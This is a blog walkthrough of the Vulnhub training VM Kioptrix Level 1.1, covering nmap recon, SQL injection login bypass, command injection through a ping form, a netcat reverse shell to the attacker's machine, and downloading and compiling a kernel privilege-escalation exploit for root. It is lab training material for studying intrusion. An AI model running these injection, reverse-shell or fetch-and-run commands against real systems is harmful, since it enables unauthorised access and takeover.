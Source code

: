 ```yaml
---
title: 'Vulnhub: Kioptrix Level 1.1(#2) - Walkthrough'
date: '2019-06-06T21:18:20+05:30'
draft: true
categories:
  - walkthrough
autoThumbnailImage: false
---
```

Kioptrix 2, the successor of one of the most popular vulnerable machines available online used for OSCP training, can be found here[ https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Upon opening in the VMware, the machine looks like this 

![](/images/uploads/b-1-.png)

Then I’ll discover the IP address of the target machine using the command

`arp-scan –l`

![](/images/uploads/b-2-.png)

Then I did port scanning of the target machine to check for open ports and services running on them

`nmap –A –Pn 192.168.192.133`

The complete result was as follows with the ports and services running highlighted:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-06-06 04:39 EDT
Nmap scan report for 192.168.192.133
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            839/udp  status
|_  100024  1            842/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-06-06T05:30:31+00:00; -3h09m48s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:E2:C6 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48s
TRACEROUTE
HOP RTT     ADDRESS
1   1.03 ms 192.168.192.133
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.17 seconds
```

Now after this I tried using SSH for login, but couldn’t succeed. **_IPP on port 631 with CUPS 1.1_** was my next target to try on, so I spent a good amount of time trying its exploits, but nothing really seemed to work. Then I also tried **_remote login on MySQL_** but it didn’t work either. Now I came to the **_port 80, for HTTP_**. The following is the webapp hosted on the target machine.

![](/images/uploads/b-3-.png)

This opened up a login, so first things first, I tried SQL Injection 

![](/images/uploads/b-4-.png)

And it actually worked, this opened the following page

![](/images/uploads/b-5-.png)

Now I tried pinging my own IP address, which worked and the next thing which striked in my mind was trying command execution using the same prompt box we entered the IP address in, I start with a simple **_pwd_** command

`<IP address to ping>;<linux command to execute along>`

![](/images/uploads/b-6-.png)

Now I start a netcat listener on my machine, using the command

`nc –nlvp <any available port>`

![](/images/uploads/b-7-.png)

Now to get terminal access of the target machine on mine, I use the following command taking advantage of the command execution vulnerability I previously found.

`<any IP to ping>;/usr/local/bin/nc <Kali’s IP> <Port number on which listener is on> -e '/bin/bash'`

![](/images/uploads/b-8-.png)

After executing this command, we’ll see a connection is established on our listener

Now we got the terminal access, but to get a command line interface, I used the command

`python –c “import pty;pty.spawn(‘/bin/bash/)”`

![](/images/uploads/b-9-.png)

Now that I have a directory access, I tried playing in the directories for a while and used normal commands to learn more about the machines and files stored on it, some of these commands are below.

![](/images/uploads/b-10-.png)

Now that I had user access and I surfed around the directories a little, I found writable file permissions for the folder _**/tmp **_which could be used for using a privilege escalation exploit compiling it and running it, which is exactly what I did.

Now I used two commands to make me aware of the Linux Kernel version and the OS release.

`cat /etc/*-release`	(OS Release)

`uname –r`			(Linux Kernel Version)

![](/images/uploads/b-11-.png)

Using this exploit, I used the _**searchsploit **_tool in Kali to find a Privilege Escalation exploit.

![](/images/uploads/b-12-.png)

Now that I found exactly one exploit, I could try using it on the machine. To download it onto the target machine, I will make use of the remote netcat terminal I created but first I’ll need to create a server from Kali hosting that exploit file I just found. For this I used the following commands

`searchsploit –m <exploit file name with extension>`		(copies the file to the working dir)

![](/images/uploads/b-13-.png)

`python –m SimpleHTTPServer`			(starts a server in the same directory)

![](/images/uploads/b-14-.png)

Now that this is done, I headed to the /tmp folder where writing and creating files is allowed for a normal user too, and download the exploit from the server I just created using the commands

`cd /tmp`

`wget <Kali’s IP address>:<port number of server>/<filename to be downloaded>`

![](/images/uploads/b-15-.png)

After the exploit is downloaded, I now need to compile it and execute it.

`gcc –o <executable output exploit name> <exploit file name>		`	(to compile)

`./<executable file name>`

![](/images/uploads/b-16-.png)

And upon the sight of “#” I knew that I’ve successfully escalated the privilege to root access.

To confirm it, I further used the commands “`whoami`” and “`id`”

![](/images/uploads/b-17-.png)

Congratulations, we have successfully completed the walk-through, I hope you enjoyed it, regarding any doubts, I can be contacted via the contact information available on the blog.



Best Regards,

Adhyan Dhull
